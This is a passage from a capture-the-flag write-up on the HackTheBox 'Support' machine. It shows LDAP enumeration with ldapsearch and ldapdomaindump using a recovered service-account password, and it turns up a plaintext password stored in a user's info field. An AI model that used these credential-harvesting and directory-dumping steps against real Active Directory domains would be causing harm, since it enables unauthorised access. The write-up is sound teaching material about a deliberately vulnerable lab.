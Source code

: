 I’ll load that info into Bloodhound, and mark ldap as owned. Looking at outbound control, there’s nothing really interesting.

### LDAP

`ldapsearch` will show all the items in the AD, which I can look through:

```

oxdf@hacky$ ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"| less

```

There’s a user named support with an interesting `info` field:

```

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
...[snip]...

```

“Ironside47pleasure40Watchful” looks like it could be a password, and given no first or last name, this looks like a shared account, so it makes sense that the password may be stored here.

I could see the same information with `ldapdomaindump`:

```

oxdf@hacky$ ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

```
